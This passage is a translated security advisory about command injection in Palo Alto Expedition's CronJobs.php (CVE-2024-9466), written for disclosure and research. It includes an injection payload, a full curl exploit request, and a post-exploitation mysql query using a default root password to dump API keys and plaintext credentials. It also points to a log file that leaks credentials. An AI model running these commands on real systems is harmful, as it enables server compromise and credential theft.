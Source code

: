 检查这些数据库条目是如何创建的，我们发现CronJobs.php中也有一个创建 cronjob 函数。当请求参数指定action为add时，它将在数据库中创建一个空的 cronjob 条目。  
  
  
图 7. 将 cronjob 条目添加到数据库  
  
我们现在已经用 cronjob 条目填充了 cronjob 表。  
  
  
图 8. 我们的请求的数据库条目  
  
有了数据库中有效的 cronjob 条目，现在我们必须找到一种方法来插入恶意命令，以便可以通过调用我们之前发现的 exec 来检索和执行该命令。回顾调用 exec 的 update 或 action = set操作，我们发现命令值的构造方式有多种，具体取决于传递的请求参数。  
  
  
图 9. 如何使用我们的输入构建“命令”的逻辑  
  
查看第 278 行，当重复周期为Daily ，该命令是使用 3 个变量构建的，其中 2 个是用户控制的。 cron_id看起来像是尝试注入命令的良好候选者，但仔细检查用于将恶意命令插入数据库的 SQL 语句需要使用有效的cron_id来插入。  
  
  
图 10. cron_id 必须有效才能更新  
  
将我们的注意力转向另一个变量time_today ，我们看到它是通过获取请求参数start_time并将其拆分为分号字符来构造的。但从不验证该时间是有效时间。  
  
  
图 11. 根据用户输入格式化的 time_today  
  
我们精心设计请求，使 start_time[0] 成为要执行的恶意命令。  
```
start_time=\"; touch /tmp/hacked ; :
```  
  
  
最终的curl请求如下所示：  
> curl -ik 'https://10.0.40.64/bin/CronJobs.php' -H 'Cookie: PHPSESSID=rpagjtqkqkf5269be9ro5597r7' -d “action=set&type=cron_jobs&project=pandb&name=test&recurrence=Daily&start_time=\”;touch /tmp/hacked ；:&cron_id=1″  
  
  
  
图 12. 使用恶意请求更新后生成的数据库条目  
  
该漏洞被指定为 CVE-2024-9466。我们的概念验证可以在这里找到。  
  
  
图 13. www-data 反向 shell  
###  后利用  
  
一旦您能够通过上述漏洞以 www-data 用户身份访问服务器，就可以直接从数据库中窃取凭据。  
  
要转储所有 API 密钥和明文凭证，请执行以下 SQL 查询：  
```
mysql -u root -p'paloalto' pandbRBAC -e 'SELECT hostname,key_name,api_key,user_name,user_password FROM device_keys dk, devices d WHERE dk.device_id=d.id'
```  
  
  
  
图 14. 集成设备的凭证  
  
在通过系统查找任何其他凭据时，我们偶然发现了一个名为 /home/userSpace/devices/debug.txt 。这个世界可读的文件包含 Expedition 服务器在设备集成过程中交换 API 密钥的明文凭据时的原始请求日志。Expedition 服务器仅存储 API 密钥，不应保留明文凭据，但此日志文件显示了明文中使用的所有凭据。此问题已报告并指定为 CVE-2024-9466。  
  
  
图 15. debug.txt 记录明文凭证  
### 未经身份验证的 SQL 注入导致凭证窃取  
  